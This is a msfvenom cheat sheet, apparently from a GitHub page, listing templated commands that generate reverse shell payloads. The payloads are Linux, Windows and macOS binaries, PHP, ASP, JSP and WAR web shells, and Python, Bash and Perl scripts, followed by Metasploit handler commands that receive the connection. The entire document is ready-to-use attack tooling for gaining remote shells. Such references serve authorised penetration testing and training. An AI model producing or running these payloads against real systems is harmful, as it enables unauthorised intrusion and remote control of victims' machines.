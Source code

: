 #msfvenom cheatsheet

**Basic Format Example**
```
msfvenom -p {PAYLOAD} LHOST={LHOST} LPORT={LPORT} -f {FORMAT} > file
```

**List all available paylods**
```
msfvenom --list payloads
```

## Binary Payloads

**Linux Meterpreter Reverse Shell**
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f elf > shell.elf
```

**Windows Meterpreter Reverse TCP Shell**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f exe > shell.exe
```

**Windows Reverse TCP Shell**
```
msfvenom -p windows/shell/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f exe > shell.exe
```

**Mac Reverse Shell**
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f macho > shell.macho
```

## Web Payloads

**PHP Meterpreter Reverse TCP**
```
msfvenom -p php/meterpreter_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f raw > shell.php
```

**ASP Meterpreter Reverse TCP**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f asp > shell.asp
```

**JSP Meterpreter Reverse TCP**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f raw > shell.jsp
```

**WAR Reverse TCP**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f war > shell.war
```

## Scripting Payloads

**Python Reverse TCP**
```
msfvenom -p cmd/unix/reverse_python LHOST={LHOST} LPORT={LPORT} -f raw > shell.py
```

**Bash Unix Reverse TCP**
```
msfvenom -p cmd/unix/reverse_bash LHOST={LHOST} LPORT={LPORT} -f raw > shell.sh
```

**Perl Reverse Reverse TCP**
```
msfvenom -p cmd/unix/reverse_perl LHOST={LHOST} LPORT={LPORT} -f raw > shell.pl
```

## Retrieving the back connect

Before executing your newly created shell, make sure to run the handler so you are listening for the incoming connection.

`use exploit/multi/handler`

`set payload {PAYLOAD}`

`set LHOST {LHOST}`

`set LPORT {LPORT}`

`run`
